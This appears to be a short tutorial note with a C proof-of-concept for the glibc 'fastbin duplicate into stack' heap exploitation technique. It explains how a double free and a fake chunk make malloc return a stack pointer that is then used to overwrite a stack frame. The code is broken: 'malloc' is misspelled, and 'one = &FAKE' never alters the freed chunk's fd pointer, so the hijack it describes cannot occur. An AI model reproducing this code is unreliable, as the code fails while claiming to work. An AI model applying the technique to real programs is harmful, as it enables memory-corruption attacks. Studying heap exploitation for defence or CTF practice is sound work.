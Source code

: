 # Fastbin duplicate into STACK
> LongChampion, 12/03/2020

> Please read `fastbin_dup.md` to know how to duplicate the chunk in fastbin linked list.

My code:
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk FAKE;
    void *a = malloc(100);
    void *b = mallloc(100);

    free(a), free(b), free(a);

    void *one = malloc(100);
    void *two = malloc(100);

    one = &FAKE;
    FAKE.size = 112;

    void *three = malloc(100);
    void *STACK = malloc(100);
}
```
The ideal is simple: we use *double free* to duplicate chunk `a`, then call `malloc` to receive it again. When we modify content of `one`, we also modify content of `three` (although which haven't allocated yet). The stage of fastbin before *hijacking* is:
> HEAD -> a -> TAIL

After *hijacking*:
> HEAD -> a -> FAKE -> XXXX

After allocating `three`:
> HEAD -> FAKE -> XXXX

After allocating `STACK`:
> HEAD -> XXXX

Now `STACK` will point to FAKE.fd (not FAKE) and we can use this pointer to overwrite the stack frame for more hacking.

# IMPORTANT NOTE
- Please remember that the `STACK` pointer will point to `FAKE.fd`, not `FAKE`.
- `one` pointer is set to point to `FAKE` (the begining of `FAKE` chunk), not point to `FAKE.fd`. **The machanism of fd pointer is different in various type of bins**.
    > For example, fd pointer of chunk in `tcache_bin` is point to fd pointer of next chunk instead of chunk's header.
- `FAKE.size` must be equal to size of chunk `a` (formally, equal to size of any chunk in same fastbin). Read `calc_tcache_idx.md` to know how to calculate this size.
- `PREV_INUSE` flag of `FAKE.size` (in this situation) is not important, so `FAKE.size` can be set to either 112 or 113.
- `XXXX` in fastbin after *hijacking* can be control by set `FAKE.fd` to the suitable address. You can make your exploitation better by set `FAKE.fd = c` (`c` is another chunk which same size) and set `c.fd = TAIL`, then the stage of fastbin will be:
    > HEAD -> a -> FAKE -> c -> TAIL (PERFECT !!!)
